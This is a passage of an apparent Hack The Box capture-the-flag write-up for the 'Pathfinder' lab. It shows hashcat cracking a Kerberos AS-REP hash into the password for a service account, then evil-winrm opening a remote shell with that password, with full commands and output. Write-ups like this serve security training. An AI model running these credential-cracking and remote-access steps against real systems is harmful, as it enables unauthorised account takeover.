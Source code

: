 ## ASREPRoasting

We got a TGT so we can go for a ASREPRoasting using `hashcat` (I tried `john` but looks like it is broken in my system or whatever):

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Pathfinder]
└─$ hashcat -m 18200 -a 0 hash.txt ~/Tools/Wordlists/rockyou.txt 
hashcat (v6.1.1) starting...
[...]
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:e38bdf345d80e70f11bc176b32d549a2$e710e585dabe65b552cc143b9426423877ec00c38b1531d904591c9905dbba0ed28d516cb5aca86864769a9e47d0af41a7b4557949b235dccadbc2ca18346010a08fed48fa67bf0582a74592c415d29b3f2066919206c3cd4e329629883c82f428e5ce37f5408f6708b943eeca1d95dd7b469e2ca09ba874639d226d51a4581ef396e41fd15e6ca6f33420cfbcb53457a8ec4a8c5f96e70d6f38f7b66347380c834f9ce3a05ea8c8d36c708a4ffe3908f9af5d5b9734854a15c704c4a13313584ab009d6c5a036f4858c960ee34952b9281787147b4a53ea14b3c06a0a455c9ad7fada2c9f06aa7b7e114132b8313f4c:Sheffield19
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc_bes@MEGACORP.LOCAL:e38bdf345d80e7...313f4c
Time.Started.....: Sat Sep  4 13:43:33 2021 (18 secs)
Time.Estimated...: Sat Sep  4 13:43:51 2021 (0 secs)
Guess.Base.......: File (/home/kali/Tools/Wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   599.9 kH/s (11.13ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10616832/14344359 (74.01%)
Rejected.........: 0/10616832 (0.00%)
Restore.Point....: 10600448/14344359 (73.90%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Sidney07 -> Sabine13

Started: Sat Sep  4 13:42:18 2021
Stopped: Sat Sep  4 13:43:51 2021
```

So we got new credentials! `svc_bes:Sheffield19`.

### Using WinRM as svc_bes 

Remember the `winrm` service? We can use it to get the user flag!

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i <MACHINE_IP> -u svc_bes -p Sheffield19

Evil-WinRM shell v3.2

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents>
```
